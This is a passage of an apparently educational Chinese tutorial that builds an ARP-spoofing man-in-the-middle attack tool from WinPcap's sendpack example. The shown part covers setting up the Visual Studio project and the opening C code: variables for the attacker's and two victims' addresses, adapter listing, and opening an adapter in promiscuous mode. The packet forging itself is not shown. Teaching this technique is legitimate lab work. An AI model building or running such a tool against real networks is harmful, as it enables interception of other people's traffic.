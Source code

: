 直接使用vs打开Examples-pcap文件夹中的MakeaAll.sln的解决方案：

![1569923329545](1569923329545.png)

![1569923323672](1569923323672.png)

打开后发现解决方案中又十个项目，因为我们的任务是发送arp包实现中间人攻击，因此我们只需要用到其中的sendpack项目：

![1569923478014](1569923478014.png)

选中该项目右键设置该项目为启动项目，之后启动解决方案就是运行sendpack项目了。现在就可以编辑sendpack.c代码了！



#### 3. 开始编码

1. 程序变量

   ```c
   	pcap_if_t* alldevs;			//网卡列表
   	pcap_if_t* d;				//选中的网卡
   	int i = 0;					//全局计数变量
   	int inum;					//定位选中的网卡
   	u_char* packet1[100];		//arp帧包1
   	u_char* packet2[100];		//arp帧包2
   
   	pcap_t *fp;					//启用网卡后的句柄
   	char errbuf[PCAP_ERRBUF_SIZE];		//错误缓冲区
   	int flood;							//发送包的数量
   
   	int self_mac[6];		//攻击者自己的mac地址
   	int victim1_ip[4];		//受害者1的ip
   	int victim1_mac[6];		//受害者1的mac地址
   	int victim2_ip[4];		//受害者2的ip
   	int victim2_mac[6];		//受害者2的mac地址
   
   ```

   

2. 检索网卡

   ```c
   	/* 检索设备列表 */
   	if (pcap_findalldevs(&alldevs, errbuf) == -1)
   	{
   		fprintf(stderr, "Error in pcap_findalldevs: %s\n", errbuf);
   		exit(1);
   	}
   ```

   

3. 选中并使用网卡

   ```c
   	/* 打开用户选中的网卡适配器 */
   	if ((fp = pcap_open_live(d->name,		// name of the device
   							 65536,			// portion of the packet to capture. It doesn't matter in this case 
   							 1,				// promiscuous mode (nonzero means promiscuous)
   							 1000,			// read timeout
   							 errbuf			// error buffer
   							 )) == NULL)
   	{
   		fprintf(stderr,"\nUnable to open the adapter. %s is not supported by WinPcap\n", argv[1]);
   		return 2;
   	}
   ```
